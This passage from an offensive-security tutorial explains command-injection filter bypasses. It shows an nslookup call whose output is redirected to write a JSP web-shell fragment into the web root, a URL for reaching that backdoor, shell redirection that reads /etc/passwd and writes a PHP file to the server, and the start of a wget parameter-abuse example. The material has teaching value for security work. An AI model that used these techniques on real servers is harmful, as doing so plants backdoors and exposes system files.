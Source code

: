 3. Server executes:

   ```bash
   nslookup "[malicious_code]" > /var/www/html/backdoor.jsp
   ```

4. The error message gets saved into `backdoor.jsp`. It looks like:

   ```jsp
   ** server can't find <% evil JSP shell %>: NXDOMAIN
   ```

5. Since JSP/PHP/ASP engines ignore invalid syntax outside tags, it treats this as:

   * Plain text + Executable script fragment
   * Effectively = **remote file upload**

6. Now visit:

   ```
   http://target.com/backdoor.jsp
   ```

💥 Boom. **You just bypassed command filters and achieved RCE.**

---

## 🧪 Hack Step Breakdown

### ✅ 1. Using `<` and `>` to Read/Write Files

* `<` = feeds a file *into* the command
* `>` = redirects command output *to* a file

Even if you can't inject more commands, you can:

* **Read from file:**

  ```bash
  command < /etc/passwd
  ```
* **Write to file:**

  ```bash
  command > /var/www/html/x.php
  ```

#### 🧠 Why this works:

You’re **not chaining commands**, just modifying what the *existing command* does.

---

### ✅ 2. Exploiting Command-line Parameters

Imagine a feature that uses `wget` like:

```bash
wget userinput
```
